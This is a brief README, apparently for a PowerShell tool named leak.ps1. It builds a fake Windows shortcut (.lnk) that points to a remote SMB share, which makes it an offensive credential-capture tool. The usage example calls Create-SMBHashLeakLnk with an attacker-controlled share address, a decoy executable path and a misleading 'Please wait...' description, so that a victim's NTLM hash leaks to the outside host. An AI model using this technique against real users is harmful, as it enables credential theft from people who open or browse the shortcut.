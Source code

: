 ## About
The script creates a fake `.lnk` file 

## Syntax
1) Import the script

`. .\leak.ps1`

2) Create a `.lnk` file

`Create-SMBHashLeakLnk -LnkFilePath ".\grab.lnk"  -SmbSharePath "\\192.168.254.43\share\hunt.exe"  -Description "Please wait..."`

